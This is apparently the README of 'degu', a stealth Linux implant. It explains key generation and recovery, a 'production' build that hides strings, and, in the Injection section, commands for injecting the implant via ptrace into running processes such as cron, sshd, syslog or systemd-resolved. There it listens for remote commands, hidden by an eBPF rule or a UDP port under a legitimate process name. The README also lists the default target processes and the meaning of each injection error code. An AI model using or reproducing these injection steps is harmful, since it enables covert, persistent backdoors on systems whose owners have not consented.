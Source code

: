 
- [Building degu](#building-degu)
    - [keys](#keys)
        - [keys generation](#keys-generation)
        - [keys recovery](#keys-recovery)
    - [compilation](#compilation)
        - [PRODUCTION Build](#production-build)
        - [DEBUG Build](#debug-build)
- [Injection](#injection)
    - [as root](#as-root)
    - [as user](#as-user)
- [Using degu](#using-degu)


## Building degu

### keys
#### keys generation
To build degu first you need to generate ED25519 key pair.
On the client part ( python degu.py lib) you have a function `keygen()` that generate all
secrets for a futur degu release:

-   IV and KNOCK_KEY are used to trigger initial communication with degu and for data ciphering after key exchange.
-   MASTER_PUBKEY is the public part of ed25519 key it is used by degu to verify signature and make secret exchange with client for encryption
-   PRIVATE_KEY is used by client part, you need to pass it in constructor of degu  python object

```python
>>> import degu
>>> myheaderfile = degu.degu.keygen()
>>> print(myheaderfile)
#define IV            { 0x03,0x7b,0xb6,0x59,0x62,0xf0,0xf5,0x56,0xa6,0x68,0xfc,0xa1,0x97,0xb8,0xbd,0x85}
#define KNOCK_KEY     { 0xc9,0xd5,0x52,0x70,0xd1,0x28,0xae,0xcd,0x96,0xda,0xa6,0x5c,0x57,0xf4,0x27,0x92,0xb7,0x65,0x3f,0xd3,0xc5,0x60,0x68,0x05,0x1f,0x71,0xed,0x8d,0xa9,0x3e,0x38,0x58}
#define MASTER_PUBKEY { 0x58,0xe4,0x37,0x0f,0x17,0x5f,0x3f,0xd7,0x07,0x3d,0xd0,0x77,0xbe,0x86,0x9a,0x60,0x34,0x80,0xff,0xae,0xcc,0xf2,0xa1,0x1d,0x60,0xff,0x76,0x44,0xfc,0x26,0x9d,0x06}

// PRIVATE_KEY="f04860177b7bcb3a4b9aaaa052fbd9218d6f0117bb0c9c7a02905809d1a0747ccc5b728445811ed1222ed1e024042c37b2164b494bb77f867d54b63f29cb62e1"

```
you can also directly call the C function keygen in degu.so library with a filename to generate as parameter (you can discard secret1 and secret2 variables that are tests on ECDH)

```python
>>> import ctypes
>>> mydegu = ctypes.CDLL("../degu.so")
>>> mydegu.keygen(b"/tmp/out")
0
>>> 
[1]+  Stopped                 python
$ cat /tmp/out 
pub="63181b1acc84276954cd80be5afb0c95de7b1b7c9fb3c4e3b8e364a85f890116"
priv="5837122bd526a2e5d64ef89aca78d80ac4e0b4ef4d1d76a6ddb18bdd17856a6911602bdebf237a361ab796518038d5aef88b0aebdc3c1523407f0ab62e457420"
iv="4e6e4e04de107ae5790c5bfe61ce52e5"
knock="79abc02eeb0bcf41c1a1e6f8491eb0b3cedce7786338cc88955f4cf76fa79f52"
secret1="cdb26065a115d0d4fede1efdb0eff4805ebdbd376cb4696bf30e90f6a474a433"
secret2="cdb26065a115d0d4fede1efdb0eff4805ebdbd376cb4696bf30e90f6a474a433"
```

Or you can just use the client script to generate this file

```bash
 $ ./dgu keygen
#define IV            { 0x3c,0x65,0x64,0x22,0x64,0x11,0x6f,0xc8,0x68,0xfd,0xa9,0x52,0xc6,0x7b,0x15,0xd1}
#define KNOCK_KEY     { 0xf9,0x7e,0x46,0x46,0xaa,0xd9,0xaa,0x96,0xfb,0xba,0x81,0x70,0x51,0xc3,0x98,0x1e,0x74,0xd5,0x7c,0x28,0x09,0x7f,0xbd,0x52,0xd4,0xdf,0x32,0x90,0xfe,0x94,0xa9,0x36}
#define MASTER_PUBKEY { 0x60,0x88,0xdd,0xfc,0xee,0x3c,0x21,0xf5,0xb6,0x69,0x13,0xa9,0xf8,0xa7,0xc9,0xb9,0x50,0x25,0x14,0xfe,0x18,0x44,0x5d,0xea,0xad,0x25,0x55,0x08,0x60,0x60,0x89,0xa0}

// PRIVATE_KEY="c8ecf68f5fad5fc8b9232548ff38bdbb81aa13d3d6cab322aaf2037802d3554b87755b4056bd4b5f4bc9219cc1615bc59afe2e69fbbd6cf633d8f9f74674579e"

```
The output needs to be piped into **keys.h** file at root of degu project

#### keys recovery
If you lost the header file you can still recover it by calling python function `getpub()`

```python
>>> import degu
>>> degu.degu.getpub()
#define IV            { 0x3c,0x65,0x64,0x22,0x64,0x11,0x6f,0xc8,0x68,0xfd,0xa9,0x52,0xc6,0x7b,0x15,0xd1}
#define KNOCK_KEY     { 0xf9,0x7e,0x46,0x46,0xaa,0xd9,0xaa,0x96,0xfb,0xba,0x81,0x70,0x51,0xc3,0x98,0x1e,0x74,0xd5,0x7c,0x28,0x09,0x7f,0xbd,0x52,0xd4,0xdf,0x32,0x90,0xfe,0x94,0xa9,0x36}
#define MASTER_PUBKEY { 0x60,0x88,0xdd,0xfc,0xee,0x3c,0x21,0xf5,0xb6,0x69,0x13,0xa9,0xf8,0xa7,0xc9,0xb9,0x50,0x25,0x14,0xfe,0x18,0x44,0x5d,0xea,0xad,0x25,0x55,0x08,0x60,0x60,0x89,0xa0}
```
By calling directly degu.so function `xpub()`, it outputs the file on stdout
```python
>>> import ctypes
>>> d = ctypes.CDLL("../degu.so")
>>> d.xpub()
#define IV		{0x3c,0x65,0x64,0x22,0x64,0x11,0x6f,0xc8,0x68,0xfd,0xa9,0x52,0xc6,0x7b,0x15,0xd1}
#define KNOCK_KEY	{0xf9,0x7e,0x46,0x46,0xaa,0xd9,0xaa,0x96,0xfb,0xba,0x81,0x70,0x51,0xc3,0x98,0x1e,0x74,0xd5,0x7c,0x28,0x09,0x7f,0xbd,0x52,0xd4,0xdf,0x32,0x90,0xfe,0x94,0xa9,0x36}
#define MASTER_PUBKEY	{0x60,0x88,0xdd,0xfc,0xee,0x3c,0x21,0xf5,0xb6,0x69,0x13,0xa9,0xf8,0xa7,0xc9,0xb9,0x50,0x25,0x14,0xfe,0x18,0x44,0x5d,0xea,0xad,0x25,0x55,0x08,0x60,0x60,0x89,0xa0}
6
>>> 
```

Or you can just use the client script to recover keys

```bash
 $ ./dgu getpub
#define IV            { 0x3c,0x65,0x64,0x22,0x64,0x11,0x6f,0xc8,0x68,0xfd,0xa9,0x52,0xc6,0x7b,0x15,0xd1}
#define KNOCK_KEY     { 0xf9,0x7e,0x46,0x46,0xaa,0xd9,0xaa,0x96,0xfb,0xba,0x81,0x70,0x51,0xc3,0x98,0x1e,0x74,0xd5,0x7c,0x28,0x09,0x7f,0xbd,0x52,0xd4,0xdf,0x32,0x90,0xfe,0x94,0xa9,0x36}
#define MASTER_PUBKEY { 0x60,0x88,0xdd,0xfc,0xee,0x3c,0x21,0xf5,0xb6,0x69,0x13,0xa9,0xf8,0xa7,0xc9,0xb9,0x50,0x25,0x14,0xfe,0x18,0x44,0x5d,0xea,0xad,0x25,0x55,0x08,0x60,0x60,0x89,0xa0}
```
### compilation

With your keys setup and `./keys.h` updated you can build degu as production or debug release.

In production release it hides strings and debug messages.

#### PRODUCTION Build 

```
$ make clean && make
```

#### DEBUG Build

```
$ make clean && DEBUG=yes make 
```
The debug build outputs all messages in /tmp/debug (settings in `degu/log.c` file)

## Injection

### as root 

We'll try to infect cron for ex:

```
# ps -ef |grep [c]ron
root         786       1  0 Dec21 ?        00:00:00 /usr/sbin/crond -n
# ./degu.so 786
#
```

If we don't want to choose a process degu have some candidate process included.

You just needs to launch degu without args as root and one candidate process will be infected. So just :

```
# ./degu.so
```


Actually 8 process are candidate, you can edit and add some editing `degu/main.c` file :
```c
#define CANDSIZE 9
char *candidate[CANDSIZE]= {
    "udev",
    "cron",
    "udisksd",
    "syslog",
    "containerd",
    "sshd",
    "getty",
    "dhcp",
    NULL
};
```

If all goes ok degu choose a process in canditate list, infect it, setup his internal ebpf rule and wait for commands.

But it can fail for some reason linked to process execution context, in this case it'll output a smiley and error code:

- `3<`
    - Attach failed, degu couldn't attach the process via ptrace ( err `-1001` )
- `:(`
    - Injection failed, degu couldn't write into process memory ( err `-1002` )
- `:/`
    - Seccomp error, degu don't want to inject into process because of too restrictive seccomp policy ( err `-1003` )
- `:\`
    - Deleted libs error, degu don't want to inject into process because dlopen invocation will fail ( err `-1004` )

### as user
You can use degu as non root user, but it will use a listen port in UDP instead of using an ebpf rule so it'll not be stealth if someone list UDP listen port.

Yet it will use userland execution to parasite a process so you'll need to chose a process like dhclient, sip server, resolver or any legitimate process that can use UDP.

For example we want to wait for commands on 1234 UDP port parasiting systemd-resolved process :

```sh
$ ./degu.so 1234 /lib/systemd/systemd-resolved
$ ps -ef |grep [s]ystemd-resolved
user     3855960    2963  0 12:02 ?        00:00:00 /lib/systemd/systemd-resolved
$ ss -lnup|grep 1234
UNCONN 0      0                       0.0.0.0:1234       0.0.0.0:*    users:(("systemd-resolve",pid=3855960,fd=3))
$ ls -al /proc/3855960/exe 
lrwxrwxrwx 1 user user 0 Dec 22 12:02 /proc/3855960/exe -> /usr/lib/systemd/systemd-resolved
```

## Using degu

For client part see [degu-client](https://github.com/io-tl/degu-client) project
